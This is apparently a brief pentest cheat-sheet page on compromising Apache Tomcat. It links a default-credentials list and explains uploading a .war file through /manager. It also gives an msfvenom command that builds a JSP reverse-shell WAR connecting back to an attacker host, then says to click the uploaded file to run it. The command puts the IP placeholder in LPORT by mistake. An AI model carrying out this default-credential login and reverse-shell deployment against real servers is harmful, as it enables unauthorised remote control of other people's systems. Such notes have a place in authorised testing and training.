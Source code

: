 # Apache Tomcat

Default credentials list:

{% embed url="https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown" %}

Through /manager, you can upload .war files

Create **.war** file:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war
```

<figure><img src="../../.gitbook/assets/image (57).png" alt=""><figcaption><p>Uploaded file</p></figcaption></figure>

Click on the uploaded file to execute the payload.

{% hint style="info" %}
This is only allowed when you have the correct permissions
{% endhint %}
